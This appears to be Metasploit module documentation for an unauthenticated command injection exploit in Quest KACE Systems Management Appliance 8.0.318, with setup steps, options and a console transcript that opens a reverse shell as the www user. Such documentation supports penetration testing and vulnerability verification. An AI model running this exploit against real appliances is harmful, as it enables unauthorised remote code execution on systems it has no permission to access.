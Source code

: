 ## Description

  This module exploits a command injection vulnerability in Quest KACE
  Systems Management Appliance version 8.0.318 (and possibly prior).

  The `download_agent_installer.php` file allows unauthenticated users
  to execute arbitrary commands as the web server user `www`.


## Vulnerable Application
 
  [Quest KACE Systems Management Appliance](https://www.quest.com/products/kace-systems-management-appliance/) endpoint systems management solution.

  This module has been tested successfully on Quest KACE SMA K1000 version 8.0 (Build 8.0.318).


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/http/quest_kace_systems_management_rce`
  3. `set ORGANIZATION <ORGANIZATION>` (default: `1`)
  4. `set AGENT_VERSION <AGENT_VERSION>` (default: `8.0.152`)
  5. `run`
  6. You should get a session


## Options

  **AGENT_VERSION**

  A valid Windows agent version must be specified. (default: `8.0.152`)

  If file sharing is enabled, the agent versions are available within the
  `\\kace.local\client\agent_provisioning\windows_platform` Samba share.

  Additionally, various agent versions are listed on the KACE website.

  **ORGANIZATION**

  Organization ID used within the appliance. (default: `1`)

  **SERIAL**

  Serial number for the appliance. By default, the module attempts to
  retrieve the serial from `/common/about.php`.


## Scenarios

  ```
  msf5 > use exploit/unix/http/quest_kace_systems_management_rce 
  msf5 exploit(unix/http/quest_kace_systems_management_rce) > set rhost 172.16.123.123
  rhost => 172.16.123.123
  msf5 exploit(unix/http/quest_kace_systems_management_rce) > check
  [*] 172.16.123.123:80 The target appears to be vulnerable.
  msf5 exploit(unix/http/quest_kace_systems_management_rce) > set ORGANIZATION 1
  ORGANIZATION => 1
  msf5 exploit(unix/http/quest_kace_systems_management_rce) > set AGENT_VERSION 8.0.152
  AGENT_VERSION => 8.0.152
  msf5 exploit(unix/http/quest_kace_systems_management_rce) > run

  [*] Started reverse TCP handler on 172.16.123.188:4444 
  [*] Sending payload (505 bytes)
  [+] Payload executed successfully
  [!] Tried to delete /tmp/agentprov/1#;/, unknown result

  492648046
  kYWSsqpLmmERqEpLazwFOTzulPvsvShY
  /kbox/kboxwww/common
  EfiuBIzdwhsSLfEpgHrRjbgjszjCkfhf
  ZGtYicImqwCnmUNGBZTpqDSPXojYXjkd
  jCmxJgLnffuOAlsAFmWygrbOhCWPCNzD
  id
  uid=80(www) gid=80(www) groups=80(www)
  uname -a
  FreeBSD k1000 11.0-RELEASE-p12 FreeBSD 11.0-RELEASE-p12 #0: Wed Aug  9 10:03:39 UTC 2017     root@amd64-builder.daemonology.net:/usr/obj/usr/src/sys/GENERIC  amd64
  ^C
  Abort session 1? [y/N]  y

  [*] 172.16.123.123 - Command shell session 1 closed.  Reason: User exit
  ```

